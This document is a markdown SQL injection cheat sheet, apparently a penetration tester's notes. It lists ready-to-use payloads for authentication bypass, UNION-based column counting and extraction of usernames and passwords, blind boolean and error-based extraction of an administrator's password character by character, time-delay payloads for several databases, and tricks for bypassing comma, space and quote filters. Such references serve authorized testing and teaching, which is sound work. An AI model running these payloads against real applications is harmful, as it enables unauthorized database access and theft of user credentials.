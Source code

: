 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```
### Retrieving Database Version
```
# mysql / mariadb and Microsoft SQL
select @@version;

# postgreSQL
select version()

# oracle
select banner from v$version
select version from v$instance

```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL

```
# Identify password length
'AND (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a

# Identify one password character at a time
# This example depends on differences in the return data.
'AND (SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='administrator'),<character position>,1)))=<ascii decimal value>--
# For each substring character (1,1; then 2,1; 3,1; etc...) cycle through all the decimal values for printable characters (33-126)

# for oracle, use SUBSTR instead of SUBSTRING

#These conditional queries depend on triggering error messages.

#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#Working PostgreSQL Statement 
(SELECT CASE WHEN count((SELECT(SELECT CASE WHEN count(( SELECT 1 ))<>0 THEN pg_sleep(5) ELSE $$$$ END)))<>0 THEN true ELSE false END) --

#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
### Bypassing Comma Restrictions
```
SELECT 1,2,3,4 FROM TABLE;    UNION SELECT * from ((SELECT 1 FROM TABLE)a JOIN (SELECT 2 FROM TABLE)b JOIN (SELECT 3 FROM TABLE)c JOIN (SELECT 4 FROM TABLE)d)--
```
### Bypassing Space Restrictions  
```
# mysql
SELECT/**/1;

# postgreSQL
/**/

```
### Bypassing Quote Restrictions  
```
# postgres  
SELECT 'TEST'; # example
SELECT $$TEST$$;
SELECT $TAG$TEST$TAG$;
SELECT CHR(84) || CHR(69) || CHR (83)  || CHR (84);
```
# Time Delays
```
# mysql / mariadb 
sleep(10)

# Microsoft SQL 
WAITFOR DELAY '0:0:10'

# postgreSQL
SELECT pg_sleep(10)

# oracle
dbms_pipe.receive_message(('a'),10)
```

### SQLi Cheat Sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
[Blind SQLi example code](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/development/python/custom_functions/bsqli.py)
